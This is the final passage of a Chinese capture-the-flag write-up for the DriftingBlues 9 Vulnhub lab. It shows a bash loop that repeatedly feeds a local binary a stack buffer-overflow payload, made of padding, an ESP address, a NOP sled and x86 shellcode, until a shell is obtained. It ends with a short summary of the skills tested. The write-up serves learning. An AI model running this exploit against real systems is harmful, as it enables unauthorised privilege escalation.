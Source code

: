 那就不可能一次就中，说明这里可能需要多次，那么就写一个循环，注意，这里是一行，也就是可以直接输入，如要多行，可能需要用到EOF等

但是这里的脚本还是不行，测试发现使用`msfvenom`生成的是反弹`shell`，并非是其缓冲区溢出，这个个人不是很熟悉，所以借取网上的wp，代码这样的，不过这段代码我是不理解其含义，后续再学习`\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80`

结合前面的，把循环加上就是这样的构造，这里的ESP地址改变，是因为测试几遍后重新获取的

```shell
for i in {1..10000}; do (./input $(python -c 'print("A"*171+"\x70\x3f\xf8\xbf"+"\x90"*32+ "\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80")')); done
```

直接在终端运行，等待一会，提取成功

![](D:\stu\vulnhub\DriftingBlues靶场\pic-9\25.jpg)



# 总结

1. 考察对于一些CMS的历史漏洞寻找并利用
2. 考察对于缓冲区溢出的掌握，以及ESP、EIP，偏移量等

































